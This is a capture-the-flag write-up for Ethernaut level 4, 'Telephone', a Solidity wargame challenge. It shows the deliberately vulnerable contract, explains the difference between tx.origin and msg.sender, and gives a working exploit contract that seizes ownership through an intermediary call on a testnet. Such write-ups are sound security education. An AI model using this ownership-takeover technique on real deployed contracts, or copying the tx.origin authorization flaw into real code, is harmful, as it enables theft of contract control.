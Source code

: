# Ethernaut - Level 4 - Telephone

Contract code:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

Objectives:
```
Claim ownership of the contract below to complete this level.
```

This contract is pretty small, there is only one function that we can call, the changeOwner function.
This function performs a check, if tx.origin is different from the msg.sender then we can update the value of owner.

## Cool, but what's the difference between tx.origin and msg.sender???

msg.sender is the address of the contract/user that had called the function, instead tx.origin is the address of the *user* that had started the call-chain.

Eg: User A --> Contract B.execute() --> Contract C.somefunction()

In this case we have user A that calls execute on contract B that calls somefunction on contract c.
In this case, tx.origin = User A and msg.sender = address(Contract B).

So, to exploit this, we need to deploy a smart contract that calls changeOwner on contract Telephone.

My exploit contract:

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;


interface ITelephone {
    function changeOwner(address _owner) external ;
}

contract Exploit {

    // I need to deploy this to the Rinekby testnet --> the same as ethernaut in order to exploit the challenge's contract
    address TARGET_CONTRACT = 0xA082d3B2706d055aa3843a3342157BbF05bD10C7;
    address PLAYER = 0xD51DF6592e7d3c5EE08cCd029Ff444a3c9255810;
    //I need the contract's ABI --> interfaces like in Java
    function OwnIt() public {
        ITelephone(TARGET_CONTRACT).changeOwner(PLAYER);
    }
        
}
```

In order to call the changeOwner function on Telephone contract we need his ABI (Application Binary Interface) --> we need the function signature of his methos changeOwner, and we wrap it inside an interface.

After we've called the OwnIt function, we'll be the owner of the Telephone contract.
